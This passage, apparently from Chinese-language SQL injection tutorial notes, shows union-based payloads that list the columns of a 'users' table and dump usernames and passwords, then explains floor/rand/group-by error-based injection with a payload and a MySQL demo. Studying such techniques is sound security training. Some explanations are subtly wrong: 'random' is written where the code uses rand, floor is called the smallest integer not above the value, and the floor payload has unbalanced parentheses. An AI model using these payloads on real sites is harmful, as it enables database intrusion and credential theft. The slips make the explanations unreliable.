 + 字段

```sql
-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+

-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users'),3--+
```

+ 数据

```sql
-1' union select 1,2,group_concat(id,0x7c,username,0x7c,password) from users--+

-1' union select 1,(select group_concat(id,0x7c,username,0x7c,password) from users),3--+
```

**总结**

>一般情况下就是这样的一个顺序，`确定联合查询的字段数->确定联合查询回显位置->爆库->爆表->爆字段->爆数据`。

### 报错注入

大体的思路就是利用报错回显，同时我们的查询指令或者SQL函数会被执行，**报错的过程可能会出现在查询或者插入甚至删除的过程**中。

前提是，对方服务器开启了错误显示

#### floor

> 函数返回小于或等于指定值（value）的最小整数,取整

> 通过floor报错的方法来爆数据的**本质是group by语句的报错**。group by语句报错的原因是`floor(random(0)*2)`的不确定性，即可能为0也可能为1

> group by key的原理是循环读取数据的每一行，将结果保存于临时表中。读取每一行的key时，**如果key存在于临时表中，则不在临时表中更新临时表中的数据；如果该key不存在于临时表中，则在临时表中插入key所在行的数据。**

> group by `floor(random(0)*2)`出错的原因是key是个随机数，检测临时表中key是否存在时计算了一下`floor(random(0)*2)`可能为0，如果此时临时表**只有key为1的行不存在key为0的行**，那么数据库要将该条记录**插入**临时表，由于是随机数，插时又要计算一下随机值，此时`floor(random(0)*2)`结果可能为1，就会导致插入时**冲突而报错**。即检测时和插入时两次计算了随机数的值。

其实floor()报错注入准确地说应该是floor,count,group by冲突报错

从常用语句开始分析

```sql
and select 1 from (select count(*),concat(database(),floor(rand(0)*2))x from information_schema.tables group by x)a)
```

先看floor报错的条件

```sql
select count(*) ,floor(rand(0)*2)x from security.users group by x(自定义数据库中的一张表)
```

这个`x`就是`floor(rand(0)*2)`的一个别名

```sql
mysql> select count(*),floor(rand()*2)x from security.users group by x;
+----------+---+
| count(*) | x |
+----------+---+
|        7 | 0 |
|        6 | 1 |
+----------+---+
2 rows in set (0.00 sec)
```
